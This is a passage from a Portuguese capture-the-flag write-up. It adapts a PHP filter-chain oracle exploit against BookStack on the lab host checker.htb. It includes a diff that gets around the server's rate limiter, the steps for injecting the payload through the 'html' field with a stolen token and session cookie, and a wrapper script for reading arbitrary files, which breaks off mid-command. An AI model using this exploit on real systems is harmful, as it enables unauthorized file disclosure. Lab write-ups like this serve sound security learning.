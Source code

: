                  else:
                     requ = self.session.post(self.target, data=merged_data)
+            # Necessário para evitar que o script seja interrompido ao atingir o rate-limit
+            if requ.status_code == 429:
+                time.sleep(4)
+                return self.req_with_response(s)
+            else:
                 return requ
         except requests.exceptions.ConnectionError :
             print("[-] Could not instantiate a connection")
@@ -151,4 +156,4 @@ class Requestor:
             return requ.elapsed.total_seconds() > ((self.time_based_attack/2)+0.01)
         
         # DEBUG print("CODE", requ.status_code == 500)
-        return requ.status_code == 500
\ No newline at end of file
+        return requ.status_code == 500
</code></pre>

Como o exploit foi construído de maneira que seu comportamento pudesse ser alterado por meio dos parâmetros, foram necessárias poucas alterações. Vale ressaltar que foi necessário contornar o rate-limiter do servidor, o qual bloqueava conexões assim que um número indeterminado de requisições fossem enviadas ao servidor num breve período de tempo. Feitas as devidas alterações no código, restou manipular os parâmetros do script para que o exploit fosse bem sucedido. Depois de inúmeros testes, percebi que são necessárias as seguintes condições para que o exploit funcione:

* é necessário criar um livro, e então criar uma página dentro desse livro;
* interceptando a requisição de criação de página, é possível obter o parâmetro `token` enviado na requisição e um `cookie` de sessão autenticada;
* no exploit, a requisição deve ser do tipo `POST` para a rota `/books/{nome_livro}/page/{nome_pagina}`, alterando `{nome_livro}` e `{nome_pagina}` para o nome do livro e o nome da página criados, respectivamente;
* o parâmetro em que o payload será injetado é o parâmetro `html`;
* é necessário informar todos os outros dados da rota de criação de páginas no exploit.

Com essas informações, criei um shell script para facilitar a reprodução do exploit e permitir ler múltiplos arquivos alterando apenas um parâmetro no comando:

{% code title="exploit.sh" lineNumbers="true" %}
```bash
#!/bin/bash

if [ "${#}" -ne 3 ]; then
  echo "Usage: ${0} <token> <cookie> <file>"
  exit 1
fi

TOKEN="${1}"
COOKIE="${2}"
FILE="${3}"
DATA="{\"name\":\"POC\",\"_token\":\"${TOKEN}\",\"_method\":\"PUT\",\"summary\":\"\",\"tags[0][name]\":\"\",\"tags[0][value]\":\"\",\"tags[randrowid][name]\":\"\",\"tags[randrowid][value]\":\"\",\"template-search\":\"\"}"
HEADERS="{\"Content-Type\":\"application/x-www-form-urlencoded\",\"Cookie\":\"bookstack_session=${COOKIE}\"}"

python3 ./filters_chain_oracle_exploit.py \
  --target="http://checker.htb/books/lfr/page/poc" \
  --file="${3}" \
  --verb="POST" \
  --delay=0 \
  --data="${DATA}" \
  --parameter=html \
  --log=output.log \
```